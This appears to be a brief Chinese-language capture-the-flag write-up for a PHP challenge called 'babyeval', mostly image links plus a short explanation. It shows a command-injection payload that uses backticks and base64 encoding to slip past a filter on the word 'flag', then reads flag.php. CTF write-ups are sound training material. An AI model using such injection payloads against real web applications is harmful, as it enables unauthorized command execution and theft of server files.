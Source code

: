 ![](img/71e853cf191a452f10d3aac6f376ebb5.png)

### babyeval

直接反引号`执行命令，不能有flag，使用base4编码秒了

```
?a=echo `ls|base64`; 
```

![](img/5db4343cb1905f27ac7fce1deb89ed38.png)![](img/6b877123020352cc9ef2e7eff82b0530.png)
最后cat flag.php即可
